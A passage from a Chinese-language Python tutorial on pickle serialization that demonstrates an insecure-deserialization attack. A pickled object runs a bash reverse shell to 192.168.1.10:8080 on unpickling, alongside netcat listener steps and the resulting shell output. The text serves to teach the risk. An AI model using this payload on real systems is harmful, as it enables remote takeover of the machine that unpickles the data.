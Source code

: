 ```py
        # The attack is from 192.168.1.10
        # The attacker is listening on port 8080
        os.system('/bin/bash -c
                  "/bin/bash -i >& /dev/tcp/192.168.1.10/8080 0>&1"')

user_foobar = foobar()
user_pickle = pickle.dumps( user_foobar )
user_unpickle = pickle.loads( user_pickle )

```

**示例-**

在上面的例子中，解除锁定的过程已经执行了 _setstate_()，它将执行一个 Bash 命令，打开端口 8080 上的 192.168.1.10 系统的远程 shell。

这就是用户如何在他们的苹果电脑或 Linux 盒子上安全地测试脚本。首先，他们必须打开终端，然后使用 nc 命令列出到端口 8080 的连接。

例如:

```py

$ nc -l 8080

```

这个终端是为攻击者准备的。

然后，用户必须在同一计算机系统上打开另一个终端，并执行 python 代码来拆封恶意代码。

用户必须确保他们必须将代码中的 IP 地址更改为攻击终端的 IP 地址。执行代码后，外壳暴露给攻击者。

```py

remote.py

```

现在，攻击控制台上会出现一个 bash shell。这个控制台现在可以直接在被攻击的系统上操作。

例如:

```py

$ nc -l 8080

```

**输出:**

```py
bash: no job control in this shell

The default interactive shell is now zsh.
To update your account to use zsh, please run ` chsh -s /bin /zsh`.
For more details, please visit https://support.apple.com /kb /HT208060.
bash-3.1$

```

## 结论:

本文讨论了如何使用 python 的不同模块来序列化和反序列化对象，以及 pickle 模块为什么比其他模块更好。我们还解释了一些物体是如何无法解开的，以及我们如何避免这些物体带来的问题。

* * *